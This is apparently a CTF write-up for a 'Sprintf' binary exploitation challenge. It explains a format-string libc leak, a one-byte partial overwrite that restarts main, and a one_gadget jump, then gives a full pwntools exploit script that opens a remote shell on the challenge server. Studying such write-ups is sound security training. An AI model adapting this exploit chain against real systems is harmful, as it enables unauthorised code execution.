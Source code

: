 ## Sprintf

In this challenge, we are given the following files

> s ld-linux-x86-64.so.2 libc-2.31.so

Upon analyzing the binary (s), we quickly realize that along with a buffer overflow there is a format string vulnerability as well. Also, we only get to send one payload if we do not try to do something tricky. Leaking an address is good but if we don't get a chance to use it, well, it is useless. So my first thought was to restart main function, so that I could use the leaked libc address to redirect control to some clever place (I'll get to that later). First payload should look something like this:

> b"%016llX" * 2 + (necessary amount of "a"s) + \x69 (What a number to overwrite least significant byte of the return address)

Originally, the return address points in libc to the instruction that is right after the call of main (in this specific libc least significant byte of that address would be \x83). Now that we overwrote it with \x69 we pointed it at before the call instruction (and some other instructions to gracefully call main again). But, there is one thing to notice here. There is a \x00 appended to the payload that we send, so, overwriting the least significant byte also overwrites the byte after that with \x00. In the worst case scenario we would overwrite 2 of the least significant bytes (to set 3 known nibbles) and that would cause to overwrite 3 other nibbles that are random. This means that we would get lucky once in 4096. But in this case, it seems like libc was carefully chosen and because of that, the two of the least significant bytes of the address we jump at to restart main are \x69\x00. In this case we only overwrite one random nibble with 0 and we should get lucky once in 16 now which is much better (I definitely saw this in the first place and didn't try to run program 4096 times).

Now that we can leak libc and restart main in the first payload, in our second payload we can redirect control to some clever place so that we can get shell. First thing that comes to mind is to ROP, though there is a trick here: because sprintf is used, we only get one gadget. But fear not, because one gadget is all we need. When we run one_gadget on libc to find these magical gadgets that give us shell, we get three hits and the one at offset 0xe3b01 seems to work just fine.

Finally, I present to you the exploit:

```python

from pwn import *
from time import *
from os import *

context.arch = "amd64"

num = 16

while num > 0:
    r = remote("litctf.org", 31790)
    payload = b'%016llX-' * 2

    payload = payload[:-1]

    payload += b'a' * (38 - len(payload)) + b'\x69'

    sleep(0.01)
    r.sendline(payload)

    recvd = r.recvline()

    leak_full = recvd.split(b"-")

    leak = leak_full[1][:-1]

    leak = leak[: leak.find(b"a")]

    def fn():
        payload = b"a" * 56 + p64(int(leak.decode(), 16) - 0x10dfd2 + 0xe3b01)

        rcvd = r.recv(timeout=1)

        if b"fault" in rcvd:
            return

        sleep(0.01)
        r.sendline(payload)

        sleep(1)
        r.interactive()

    fn()
    r.close()
    num -= 1

```
